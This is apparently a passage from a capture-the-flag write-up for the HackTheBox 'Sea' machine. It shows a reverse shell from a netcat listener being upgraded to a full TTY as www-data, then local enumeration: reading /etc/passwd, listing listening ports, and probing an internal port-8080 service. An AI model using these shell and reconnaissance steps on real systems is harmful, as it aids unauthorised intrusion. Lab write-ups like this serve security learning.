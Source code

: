 ```bash
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@sea:/tmp$ ^Z
zsh: suspended  nc -nlvp 9000

┌──(kali㉿kali)-[~/htb/sea]
└─$ stty raw -echo; fg       
[1]  + continued  nc -nlvp 9000
                               reset
Terminal type? screen
www-data@sea:/tmp$ 
```

Then I got `www-data`'s shell!



# Shell as `amay`

### Enumeration

Let's check what users are available on the system.

```bash
www-data@sea:/tmp$ grep "sh$" /etc/passwd
root:x:0:0:root:/root:/bin/bash
amay:x:1000:1000:amay:/home/amay:/bin/bash
geo:x:1001:1001::/home/geo:/bin/bash
```

```bash
www-data@sea:/var/www/sea$ ss -lntp
State   Recv-Q   Send-Q     Local Address:Port      Peer Address:Port  Process  
LISTEN  0        10             127.0.0.1:48095          0.0.0.0:*              
LISTEN  0        4096           127.0.0.1:8080           0.0.0.0:*              
LISTEN  0        4096       127.0.0.53%lo:53             0.0.0.0:*              
LISTEN  0        128              0.0.0.0:22             0.0.0.0:*              
LISTEN  0        511                    *:80                   *:*              
LISTEN  0        128                 [::]:22                [::]:*              
```

Port 8080 is running additionally.

```bash
www-data@sea:/var/www/sea$ curl -v http://localhost:8080
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 401 Unauthorized
< Host: localhost:8080
< Date: Mon, 17 Mar 2025 03:01:25 GMT
< Connection: close
< X-Powered-By: PHP/7.4.3-4ubuntu2.23
< WWW-Authenticate: Basic realm="Restricted Area"
< Content-type: text/html; charset=UTF-8
< 
* Closing connection 0
```
